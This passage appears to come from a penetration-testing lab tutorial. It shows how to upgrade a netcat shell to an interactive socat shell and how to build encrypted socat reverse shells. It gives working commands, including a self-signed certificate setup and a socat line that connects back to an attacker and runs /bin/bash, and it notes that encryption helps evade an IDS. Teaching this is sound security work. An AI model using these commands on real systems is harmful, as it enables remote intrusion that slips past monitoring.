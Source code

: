 That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:

![alt text](images/socat_01.png "Screenshot")

Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

If, at any point, a `socat` shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

## Socat Encrypted Shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

```commandline
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single `.pem` file:

```commandline
cat shell.key shell.crt > shell.pem
```

Now, when we set up our reverse shell listener, we use:

```commandline
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

This sets up an OPENSSL listener using our generated certificate. verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:

```commandline
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```
